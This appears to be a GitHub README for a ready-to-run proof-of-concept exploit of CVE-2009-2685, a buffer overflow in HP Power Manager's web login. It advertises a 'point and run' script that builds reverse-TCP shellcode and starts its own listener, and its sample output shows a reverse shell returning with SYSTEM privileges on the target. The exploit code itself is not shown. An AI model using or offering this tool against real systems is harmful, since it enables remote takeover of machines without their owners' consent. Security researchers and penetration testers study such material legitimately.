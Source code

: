 # CVE-2009-2685

Stack-based buffer overflow in the login form in the management web server in HP Power Manager allows remote attackers to execute arbitrary code via the Login variable.

## Summary

My modified version! Just point and run! No need to start listener or generate shellcode everything is handled in this PoC

## Usage

```sh
⬢  CVE_2009-2685_HP_Power_Manager_RCE  master ⦿ ./hpm_rce.py

 ██░ ██  ██▓███   ███▄ ▄███▓ ██▀███   ▄████▄  ▓█████
▓██░ ██▒▓██░  ██▒▓██▒▀█▀ ██▒▓██ ▒ ██▒▒██▀ ▀█  ▓█   ▀
▒██▀▀██░▓██░ ██▓▒▓██    ▓██░▓██ ░▄█ ▒▒▓█    ▄ ▒███
░▓█ ░██ ▒██▄█▓▒ ▒▒██    ▒██ ▒██▀▀█▄  ▒▓▓▄ ▄██▒▒▓█  ▄
░▓█▒░██▓▒██▒ ░  ░▒██▒   ░██▒░██▓ ▒██▒▒ ▓███▀ ░░▒████▒
 ▒ ░░▒░▒▒▓▒░ ░  ░░ ▒░   ░  ░░ ▒▓ ░▒▓░░ ░▒ ▒  ░░░ ▒░ ░
 ▒ ░▒░ ░░▒ ░     ░  ░      ░  ░▒ ░ ▒░  ░  ▒    ░ ░  ░
 ░  ░░ ░░░       ░      ░     ░░   ░ ░           ░
 ░  ░  ░                ░      ░     ░ ░         ░  ░
                                     ░
[nighter@nighter.se] - CVE-2009-2685

Usage: ./hpm_rce.py <HOST>:<PORT> <LHOST> <LPORT>
EXAMPLE: ./hpm_rce.py '10.10.10.70' 10.10.14.24 1337

```

## Exploit

```sh
$ ./hpm_rce.py 10.11.1.xxx 10.11.0.xxx 4444
[+] Start listener
[+] Build shellcode
PAYLOAD => windows/shell_reverse_tcp
LHOST => 10.11.0.xxx
LPORT => 4444
[*] Started reverse TCP handler on 10.11.0.xxx:4444
[+] Exploit
[*] Command shell session 1 opened (10.11.0.xxx:4444 -> 10.11.1.xxx:49166) at 2019-02-25 08:57:28 -0500

C:\Windows\system32>whoami
whoami
nt authority\system
```